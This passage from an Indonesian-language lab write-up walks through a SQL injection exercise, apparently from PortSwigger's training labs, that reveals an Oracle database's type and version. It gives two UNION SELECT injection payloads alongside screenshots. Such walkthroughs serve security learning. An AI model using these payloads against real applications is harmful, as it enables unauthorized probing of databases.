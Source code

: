    <img width="1915" height="965" alt="Cuplikan layar 2025-09-10 225934" src="https://github.com/user-attachments/assets/2a19524b-ea1e-4182-b634-ce4712e6c71e" />

5. **Uji coba tampilan type dan versi database**
   
    tahap ini bisa diuji dengan payload:
    ```bash
    '+UNION+SELECT+V,R+FROM+dual--
    ```
    
    <img width="1916" height="970" alt="Cuplikan layar 2025-09-10 230334" src="https://github.com/user-attachments/assets/41c1ac16-3ac7-47e4-a4a0-07c570aec62d" />

7. **Tampilkan Database Type dan Versi nya**

   Untuk hint payload bisa diliat di cheatsheet berikut: https://portswigger.net/web-security/sql-injection/cheat-sheet

   Payload yang digunakkan:
   
   <img width="1915" height="916" alt="Cuplikan layar 2025-09-10 222351" src="https://github.com/user-attachments/assets/6f4c24b4-6f9d-48f2-a057-398710d9d50b" />

   ```bash
   '+UNION+SELECT+Banner,NULL+FROM+v$version--
   ```
   
   <img width="1919" height="965" alt="Cuplikan layar 2025-09-10 230804" src="https://github.com/user-attachments/assets/1f7a529a-dc3d-446b-87eb-9932fe27c4ab" />

   Pada bagian bawah tertera Versi nya.

---
